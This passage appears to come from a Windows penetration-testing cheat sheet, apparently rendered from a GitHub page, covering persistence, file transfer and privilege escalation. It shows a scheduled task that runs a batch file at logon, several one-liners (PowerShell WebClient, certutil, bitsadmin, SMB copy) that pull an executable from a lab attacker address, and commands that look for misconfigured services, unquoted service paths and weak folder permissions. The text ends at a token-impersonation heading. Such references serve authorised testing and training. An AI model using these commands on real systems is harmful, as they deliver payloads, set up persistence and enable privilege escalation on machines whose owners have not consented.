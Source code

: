 #### 💣 Scheduled Task

```cmd
schtasks /create /sc onlogon /tn "Updater" /tr "C:\Users\Public\update.bat"
```

***

### IX. 🧰 File Transfer Arsenal

#### 🔄 PowerShell

```cmd
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.2/file.exe','C:\Temp\file.exe')"
```

#### 💡 Certutil

```cmd
certutil -urlcache -split -f http://10.10.14.2/file.exe file.exe
```

#### ⚙️ SMB / FTP / Bitsadmin

```cmd
copy \\10.10.14.2\share\file.exe C:\Temp\
bitsadmin /transfer job /download /priority high http://10.10.14.2/file.exe C:\Temp\file.exe
```

***

### X. 🧩 Privilege Escalation Vectors

#### 🔑 Service Misconfig

```cmd
sc qc <service>
icacls "C:\Program Files\Service"
```

#### 💥 Unquoted Service Paths

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\"
```

#### ⚙️ Weak Permissions

```cmd
icacls "C:\Program Files"
icacls "C:\Windows\Tasks"
```

#### 🧠 Token Impersonation (Lab Use)
